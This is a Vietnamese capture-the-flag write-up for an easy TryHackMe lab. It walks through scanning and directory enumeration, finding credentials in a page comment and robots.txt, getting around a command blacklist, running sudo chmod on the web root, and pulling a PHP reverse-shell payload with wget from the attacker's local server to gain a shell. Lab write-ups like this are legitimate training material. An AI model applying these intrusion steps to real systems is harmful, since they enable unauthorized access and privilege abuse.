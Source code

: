 ﻿### Yêu cầu
- Cho trước:
    * Host: 10.10.55.49 (có thể khác)
    * Web app: https://10-10-55-49.p.thmlabs.com/
- Tìm đủ 3 flags.
### Let's go
- Mở vào trang web, đầu tiên mình thấy không có gì khả nghi. Mình xem page source thì thấy 1 đoạn comment chứa tên tài khoản: `R1ckRul3s`. Phán đoán ban đầu, mình cho rằng có thể là tài khoản đăng nhập vào trang quản trị, hoặc ssh.
- Dùng nmap quét host, chỉ có 2 cổng tcp mở: 80 http, 22 ssh, cùng một số cổng udp nào đó (mình cũng không rõ về các services chạy udp đó).
- Điều đầu tiên mình nghĩ đến là Brute force password vào ssh với username `R1ckRul3s`. Nhưng sau khi Brute force không được, mình mới thử ssh vào host với username `R1ckRul3s` và nhận được thông báo Permission Denied (public key). Mình đoán username R1ckRul3s không đúng.
- Kiểm tra version của service ssh bằng `nmap -sV`, mình thấy ssh có version OpenSSH 7.6p1 (version này có lỗ hổng có thể khai thác username enumeration). Mình khai thác username enumeration thông qua Metasploit với hy vọng tìm kiếm được username. Tuy nhiên, kết quả là không nhận được gì cả.
- Tạm bỏ qua ssh, mình quay trở lại với webapp.
- Dùng gobuster để enum webapp. Kết quả trả ra một vài thứ khá hay ho:
  * /assets 
  * /robots.txt 
  * /login.php 
  * /portal.php 
- Truy cập vào https://10-10-55-49.p.thmlabs.com/robots.txt , mình thấy có đúng 1 dòng `Wubbalubbadubdub`. Mình đoán nó là mật khẩu của tài khoản `R1ckRul3s` tìm thấy trước đó.
- Truy cập vào https://10-10-55-49.p.thmlabs.com/login.php , hiển thị 1 form đăng nhập. Nhập vào username `R1ckRul3s` và password `Wubbalubbadubdub`, authenticate thành công và được redirect đến portal.php.
- Tại đây xuất hiện 1 ô input để thực thi command trên server host. Như thói quen, mình thử `ls -la`. Kết quả trả về các file đã enum được trước đó, thêm vào đó là 2 file mình thấy khả nghi: Sup3rS3cretPickl3Ingred.txt , clue.txt. 
- Mình thử dùng `cat`, `more` để xem 2 file nhưng bị block -> có 1 vài lệnh trong blacklist. Mình dùng `less` để xem thì lại được. Hoặc có thể truy cập trực tiếp từ browser URL. Ok nội dung trong file Sup3rS3cretPickl3Ingred.txt chính là flag đầu tiên cần tìm. Nội dung trong file clue.txt là `Look around the file system for the other ingredient.` - ý nói cần tìm thêm các chỗ khác để lấy 2 flag còn lại.
- Dùng `pwd`, trả về /var/www/html, đây là thư mục chứa content web app.
- Dùng `whoami`, trả về www-data.
- Dùng `ls -la /home` để xem có thể có những thư mục người dùng nào, kết quả trả về có ubuntu và rick. Xem qua thư mục ubuntu không có gì, còn thư mục rick có file second ingrendients. Đây có vẻ là flag thứ 2.
- Vì tên file chứ space nên không thể mở như bình thường được. Mình dùng `less /home/rick/second\ ingredients` và xem được nội dung file. Đây chính xác là flag thứ 2.
- Lúc này việc tìm flag thứ 3 khiến mình gặp khá nhiều thời gian vì không tìm được manh mối nào có ích.
- View page-source portal.php, có 1 dòng comment nội dung là 1 đoạn mã base64, mình decode đoạn mã đó lại ra 1 đoạn mã base64 khác. Mình cứ vậy mà decode khoảng 9-10 lần thì thấy kết quả cuối là`rabbit hole`.
- Mình đã xem file config ssh bằng `less /etc/ssh/sshd_config` và thấy dòng `PasswordAuthentication no` -> không thể đăng nhập ssh bằng mật khẩu.
- Mình thử brute force trang login.php với các từ khóa liên quan đến rabbit hole, rick, root, ubuntu,... nhưng cũng không thành công.
- Sau đó mình dùng `less login.php` mới thấy chỉ authen tài khoản `R1ckRul3s` và mật khẩu `Wubbalubbadubdub`. 
- Về mãi sau, khi tìm đủ 3 flag, mình search `rabbit hole in linux`, mới hiểu có vẻ như đó là 1 hint để xem nội dung file bằng các câu lệnh khác (nhưng trên thực tế mình cũng không dùng đến rabbit hole). Hoặc đó là 1 cú lừa, btw ~~.
- Mình thử dùng netcat để tại reverse shell nhưng không thành công. Sau đó, mình mở http server ở local và dùng `wget <LHOST> <LPORT> php-reverse-shell.php` để upload payload lên host. Ở local báo file đã được get thành công nhưng check trên server mình lại không thấy. Có thể không được phép chỉnh sửa hay tạo file trong folder này.
- Mình thử touch 1 file bất kỳ nhưng không được.
- Dùng `sudo chmod 777 /var/www/html` và upload payload lại thì lại được.
- Dùng thêm `sudo chmod 777 php-reverse-shell.php` cho chắc.
- Chạy netcat  dưới local để lắng nghe và chạy payload trên server, ta có được reverse shell.
- Mình xem qua 1 vòng hệ thống, thử vào /root thì ú òa, có file `3rd.txt`, đọc nội dung file và có ngay flag thứ 3.
- Trên thực tế thì chỉ cần đơn giản chạy `sudo ls -la /root` và `less /root/3rd.txt` ở trên ô input trang portal.php là có thể lấy được flag thứ 3. Nhưng do mình luôn muốn có được reverse shell trên server nên mới tìm cách để upload payload lên.
- Đây là 1 CTF ở mức độ Easy nhưng mình cũng đã mất khá nhiều thời gian để tìm đủ 3 flag, nhất là flag 3. Một vài điều thú vị mình đã thực hiện mặc dù không cần thiết: chmod /var/www/html để upload được payload lên, lấy được reverse shell. Ở các bước đầu tiên, nếu bạn làm theo hướng upload payload và lấy reverse shell thì cũng không cần quan tâm đến blacklist gì cả.
- Có 1 điều thú vị là mình đã suy nghĩ rất nhiều về `rabbit hole`, rằng không biết `rabbit hole` để làm gì, hay gợi ý điều gì, hay chỉ đơn giản là đánh lạc hướng. Cuối cùng mình nghĩ đó là 1 hint nói rằng hãy bypass blacklist =)).
- Ok đến đây thôi. Happy hacking!
